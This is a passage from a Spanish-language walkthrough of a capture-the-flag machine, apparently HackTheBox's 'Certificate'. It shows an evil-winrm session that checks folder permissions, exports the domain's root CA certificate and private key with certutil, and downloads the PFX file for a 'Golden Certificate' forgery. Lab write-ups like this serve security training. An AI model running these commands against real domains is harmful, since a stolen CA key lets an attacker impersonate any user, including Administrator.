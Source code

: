 ~~~ powershell
evil-winrm-py PS C:\Programdata> icacls C:
C: NT AUTHORITY\SYSTEM:(OI)(CI)(F)
   BUILTIN\Users:(OI)(CI)(F) # Here (F) is Full Control
   CREATOR OWNER:(OI)(CI)(IO)(F)
   BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(RX)
   BUILTIN\Pre-Windows 2000 Compatible Access:(CI)(WD,AD,WEA,WA)
~~~


## Golden Certificate

En este punto podríamos intentar desde ver la última flag hasta extraer la base de datos `NTDS` y volcar todos los hashes NTLM. 

> El ataque `Golden Certificate` consiste en obtener el **Certificado y la Clave Privada de la Autoridad de Certificación (CA)** raíz o de una CA subordinada del dominio.
{: .notice--info}

Podemos exportar un certificado que incluya la clave privada de la CA para firmar certificados en nombre de cualquier usuario, incluyendo a `Administrator`.

Comenzaremos exportando la clave privada dentro de un certificado PFX, podemos hacer uso del número de serie del certificado raíz de la CA

~~~ powershell
evil-winrm-py PS C:\Programdata> certutil -exportPFX 75B2F4BBF31F108945147B466131BDCA .\ca.pfx

MY "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file .\ca.pfx:
Enter new password: 
Confirm new password: 
CertUtil: -exportPFX command completed successfully.
~~~

Descargaremos el certificado en nuestra máquina

~~~ powershell
evil-winrm-py PS C:\Programdata> download ca.pfx .
~~~
